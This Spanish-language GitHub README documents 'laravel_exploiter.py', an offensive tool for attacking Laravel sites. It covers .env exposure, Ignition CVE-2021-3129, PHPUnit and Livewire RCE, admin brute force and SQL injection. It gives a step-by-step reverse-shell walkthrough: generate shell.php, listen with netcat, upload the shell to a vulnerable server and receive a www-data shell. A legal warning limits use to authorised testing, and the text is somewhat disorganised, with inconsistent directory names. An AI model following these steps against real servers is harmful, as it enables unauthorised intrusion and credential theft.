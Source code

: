 
```ascii
██████╗  █████╗ ███╗   ██╗██╗███████╗██╗         ██████╗  █████╗ ███╗   ███╗██╗██████╗ ███████╗███████╗
██╔══██╗██╔══██╗████╗  ██║██║██╔════╝██║         ██╔══██╗██╔══██╗████╗ ████║██║██╔══██╗██╔════╝╚══███╔╝
██║  ██║███████║██╔██╗ ██║██║█████╗  ██║         ██████╔╝███████║██╔████╔██║██║██████╔╝█████╗    ███╔╝ 
██║  ██║██╔══██║██║╚██╗██║██║██╔══╝  ██║         ██╔══██╗██╔══██║██║╚██╔╝██║██║██╔══██╗██╔══╝   ███╔╝  
██████╔╝██║  ██║██║ ╚████║██║███████╗███████╗    ██║  ██║██║  ██║██║ ╚═╝ ██║██║██║  ██║███████╗███████╗
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚══════╝╚══════╝
```

<div align="center">
  
[![Matrix SVG](https://raw.githubusercontent.com/rodrigograca31/rodrigograca31/master/matrix.svg)](https://github.com/ELDANI1)

</div>

# Laravel Security Testing Tool

Herramienta de seguridad para pruebas de penetración en aplicaciones Laravel.

## ⚠️ ADVERTENCIA LEGAL

**ESTA HERRAMIENTA ES SOLO PARA:**

- Pruebas de penetración autorizadas
- Auditorías de seguridad en sistemas propios
- Entornos de testing controlados
- Educación e investigación en seguridad

**NO UTILICES ESTA HERRAMIENTA EN SISTEMAS SIN AUTORIZACIÓN EXPLÍCITA.**

## 🚀 Características

- Detección de archivos .env expuestos
- Prueba de vulnerabilidades Laravel Ignition (CVE-2021-3129)
- Detección de PHPUnit RCE
- Prueba de Livewire RCE
- Fuerza bruta en paneles de administración
- Escaneo de inyecciones SQL
- Búsqueda de archivos sensibles
- Prueba de conexión MySQL
- Generación de reverse shell

## 📦 Instalación

### Requisitos

```bash
# Python 3.6+
python3 --version

# Dependencias
pip3 install requests

# Herramientas opcionales (recomendadas)
sudo apt install mysql-client sqlmap


# Clonar el repositorio
git clone https://github.com/ELDANI1/SCRIPS-DE-PRUEBA
cd SCRIP DE PRUEBA
LUEGO LS PARA SABER DONDE QUEDO EL ARCHIVO , Y ASI PODER VER SI FUE O NO CLONADO 

# Hacer ejecutable
chmod +x laravel_exploiter.py

# Ejecutar directamente
./laravel_exploiter.py

#Escaneo básico

python3 laravel_exploiter.py ejemplo.com

#Escaneo con credenciales de base de datos

python3 laravel_exploiter.py ejemplo.com --db-user admin --db-pass password --db-name laravel_db

#Generar reverse shell

python3 laravel_exploiter.py ejemplo.com --shell

·Todos los parámetros
bash
python3 laravel_exploiter.py https://ejemplo.com \
# --app-key "base64-app-key" \
# --db-user "usuario_db" \
# --db-pass "password_db" \
# --db-name "nombre_db"

Exposición de .env - Verifica si el archivo de configuración está accesible

Laravel Ignition RCE - Prueba CVE-2021-3129

PHPUnit RCE - Detecta eval-stdin.php expuesto

Livewire RCE - Prueba vulnerabilidades en Livewire

Fuerza bruta - Paneles de administración comunes

SQL Injection - Parámetros comunes y payloads básicos

Archivos sensibles - Lista de archivos comunes expuestos

Conexión MySQL - Solo si se proporcionan credenciales

# EJEMPLO DE SALIDA 
🚀 LARAVEL EXPLOITATION TOOL
⚠️  SOLO PARA PRUEBAS ÉTICAS EN SISTEMAS AUTORIZADOS

[*] INICIANDO EXPLOTACIÓN COMPLETA PARA: https://ejemplo.com
============================================================
[*] Verificando exposición de .env...
[+] .env EXPUESTO - Credenciales disponibles
[*] Probando Laravel Ignition RCE (CVE-2021-3129)...
[-] Error en Ignition RCE: timeout
...
[+] RESUMEN DE EXPLOTACIÓN:
[+] ENV_EXPOSED: VULNERABLE
[-] IGNITION_RCE: No vulnerable
...


🤝 Contribuciones
Las contribuciones son bienvenidas. Por favor:

# 1. Generar el shell
python3 laravel_exploiter.py ejemplo.com --shell

# El script preguntará:
# Tu IP para reverse shell: [INGRESA_TU_IP_AQUI]
# Puerto [4444]: [ENTER o ingresa otro puerto]

# 2. Poner tu máquina en escucha (en otra terminal)
nc -lvnp 4444

# 3. Subir el archivo shell.php al servidor vulnerable
# (usando alguna vulnerabilidad encontrada)

# 4. Acceder a la shell subida via navegador o curl
# http://ejemplo.com/shell.php 


## SOLO SI Encuentras que el objetivo tiene .env expuesto

#Descubres credenciales válidas en el panel de admin

#Encuentras un RCE funcionando (Ignition, PHPUnit, etc.)

#Subes el shell.php al servidor

#Accedes via navegador a http://ejemplo.com/shell.php

#Obtienes una shell en tu terminal con Netcat   


#EJEMPLO DE REVERSHELL 
# Terminal 1 - Generar shell
$ python3 laravel_exploiter.py mi-sitio.com --shell
Tu IP para reverse shell: 192.168.1.100
Puerto [4444]: 9999
[+] Reverse shell generado: shell.php
[*] Ejecuta: nc -lvnp 9999 antes de subir el shell

# Terminal 2 - Escuchar conexión
$ nc -lvnp 9999
listening on [any] 9999 ...

# Subir shell.php al servidor (usando vulnerabilidad encontrada)
# Luego acceder via: http://mi-sitio.com/uploads/shell.php

# Cuando se ejecute el shell, verás en Terminal 2:
connect to [192.168.1.100] from (UNKNOWN) [mi-sitio.com] 54322
whoami
www-data
pwd
/var/www/html


Consideraciones importantes:
Firewalls: El servidor podría tener firewalls que bloqueen conexiones salientes

Filtrado: El servidor podría filtrar/borrar archivos .php

Detección: Antivirus/WAF podrían detectar el shell

Permisos: Necesitas permisos de escritura en algún directorio web

# NFO SI PARA QUE NO FALLE KALI 
# Actualizar Kali
sudo apt update

# Instalar dependencias
sudo apt install -y python3 python3-pip mysql-client sqlmap

# Clonar el repositorio
git clone https://github.com/ELDANI1/SCRIPS-DE-PRUEBA
cd laravel-security-tool

# Instalar dependencias de Python
pip3 install requests

# Ejecutar
python3 laravel_exploiter.py ejemplo.com
